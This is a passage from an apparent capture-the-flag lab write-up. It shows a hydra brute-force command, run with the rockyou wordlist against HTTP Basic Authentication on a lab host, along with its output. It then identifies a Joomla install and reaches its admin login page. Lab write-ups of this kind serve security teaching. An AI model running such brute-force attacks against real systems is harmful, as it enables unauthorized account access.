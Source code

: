 `[REDACTED].txt` content:

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

From the file, I can assume that there are 2 potential usernames `joker` and `batman` . Moreover, they are talking about *rock* which reminds me about the **rockyou** wordlist - the most common wordlist on brute-forcing password

I will try this on the port `8080` using hydra

### Brute Force

Perform a brute-force password attack on the target which is the **Basic Authentication** on the specific port, I gain the password to login:

```
┌──(kali㉿kali)-[~/TryHackMe/JokerCTF]
└─$ hydra -l joker -P ~/Wordlists/rockyou.txt -s 8080 -f joker.thm http-get /
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or [REDACTED] service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-28 17:05:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://joker.thm:8080/
[8080][http-get] host: joker.thm   login: joker   password: [REDACTED]
[STATUS] attack finished for joker.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-28 17:06:10
```

After logging in, I check out the page’s source and explore the CMS is running this application:

```html
<meta name="generator" content="Joomla! - Open Source Content Management" />
```

Take a simple google searching and find out the admin panel is located on `[REDACTED]` path. Route to the destination and obviously it is another login form:

